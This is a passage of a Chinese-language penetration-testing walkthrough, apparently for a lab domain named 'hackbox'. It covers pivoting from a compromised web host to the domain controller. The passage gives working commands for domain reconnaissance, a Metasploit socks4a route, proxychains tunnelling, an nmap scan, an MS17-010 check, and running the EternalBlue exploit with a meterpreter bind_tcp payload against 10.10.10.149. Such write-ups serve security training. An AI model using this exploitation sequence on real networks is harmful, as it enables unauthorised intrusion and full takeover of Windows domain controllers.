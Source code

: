 通过域内信息搜集，发现 hackbox 域内只有两个主机：dc、web，而 web 是当前我们拿到权限的的主机：10.10.10.150，而 dc 应该就是：10.10.10.149:net view /domain:hackbox

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiaRu7UllDcQzJTGicxPwuabQicQrCv7bTWU6AR4bvUGVib3zwz5EmuwqgicA/640?wx_fmt=png)

这个时候 ping 一下 dc 就直接确定了 dc 的 ip 为：10.10.10.149：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiaWLFY1pkYfhwicaIeH93PTaYiccazqibf3pdpDBnIuK2IQZdSAZOzRFY6g/640?wx_fmt=png)

之后我们需要做域内渗透，由于我们 kali 不能直接访问目标的内网，那么我们就需要做一层路由代理，才能对目标内网进行渗透！

添加路由：

```
use auxiliary/server/socks4a
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiaQPia28GRtmR57xqZjENllvicNlRQtQUgpoG8b0AWgSO9HLFaS6b9aZaQ/640?wx_fmt=png)

然后进行 socks 代理：

```
vi /etc/proxychains.conf
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiaicLGCJeAhYmb6AT0ru8r75dgJHFSo8xznibIsMweDbNxDMB9trHId7rA/640?wx_fmt=png)

再设置 proxychains：

```
proxychains nmap -sT -Pn 10.10.10.149
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiaL7KtjgfwwxxhIxS9F8ic6iaTlVKzjJUFZI5lF8UHqETnUrno4373ncibA/640?wx_fmt=png)

这样就能对它内网进行渗透了，在使用工具的时候，命令前面加一个：proxychains

PS：proxychains 不支持 udp 和 icmp 协议，因此我们需要对目标进行 tcp 扫描！

对域控进行端口扫描：

```
auxiliary/scanner/smb/smb\_ms17\_010
set rhosts 10.10.10.149
run
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiaJZlAjFLD8ONewPTzoiaLRcBetcjVBEnjYYqShYerrGUsicQtIGFbJ4kg/640?wx_fmt=png)

发现目标开启了 445 端口，看看有没有 ms17010：

```
use exploit/windows/smb/ms17\_010\_eternalblue
set rhosts 10.10.10.149
set payload windows/meterpreter/bind\_tcp
exploit
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiaNpLdmgdddEhlSmuvvS7BeYib9TJFjfh81RwuTaVxl3sps4eYvFo6ib1w/640?wx_fmt=png)
